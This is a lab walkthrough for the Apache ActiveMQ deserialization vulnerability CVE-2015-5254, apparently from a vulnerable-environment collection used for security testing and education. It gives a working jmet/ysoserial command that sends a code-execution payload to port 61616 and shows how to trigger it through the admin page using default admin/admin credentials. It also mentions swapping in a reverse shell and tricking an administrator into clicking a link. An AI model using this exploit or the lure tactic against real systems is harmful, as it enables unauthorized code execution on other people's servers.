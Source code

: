 # ActiveMQ Deserialization Vulnerability (CVE-2015-5254)

[中文版本(Chinese version)](README.zh-cn.md)

Apache ActiveMQ is an open source messaging middleware developed by the American Pachitea (Apache) Software Foundation that supports Java messaging services, clustering, Spring framework, and more.

Apache ActiveMQ version 5.x before the 5.13.0 security vulnerability, the vulnerability caused by the program does not limit the classes that can be serialized in the proxy. Remote attacker can make a special serialized Java Message Service (JMS) ObjectMessage objects exploit this vulnerability to execute arbitrary code.

Reference Links:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## Vulnerability environment

Start the vulnerable environment:

```
docker-compose up -d
``` 

After running the environment, it will establish two ports on port 61616 and 8161. Port 61616 is the working port, and messages are delivered on this port. Port 8161 is the webpage management page port. Access ` http://your-Ip:8161`, You can see the network management page, but this vulnerability does not require a network theoretically.

## Exploit

The exploit process is as follows:

1. Generate serialized payload (u can using ysoserial)
2. send payload to port 61616
3. Access the web management page and read the serialization messages, then u can trigger vulnerability.

To exploit this environment we will use [jmet](https://github.com/matthiaskaiser/jmet) (Java Message Exploitation Tool). First download the jar file of jmet, and create an external folder in the same directory (otherwise it may occur the error that the folder does not exist).

the jmet is to use ysoserial to generate Payload and send it (the jar comes with ysoserial, we don't no need to download it again), so we need to choose one that can be used in ysoserial as the gadget, such as ROME.

Execute:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
``` 

![](1.png)

At this point, a queue named event will be added to the target ActiveMQ. 

You can visit `http://your-ip:8161/admin/browse.jsp?JMSDestination=Event` to see all messages in this queue 

( __login / password:__  admin / admin ):

![](2.png)

Click this message to trigger the command execute, this time into the container `docker-compose exec activemq bash`, 

we can see /tmp/success has been successfully created, indicating exploit successful:

![](3.png)

Replace the command with a reverse shell statement and reuse it:

![](4.png)

It's worth noting that accessing messages through the web administration page and triggering the vulnerability requires administrator privileges. In the absence of password, we can induce administrator visit our link to trigger, or disguised as legitimate messages from other services need to wait for client access when triggered.
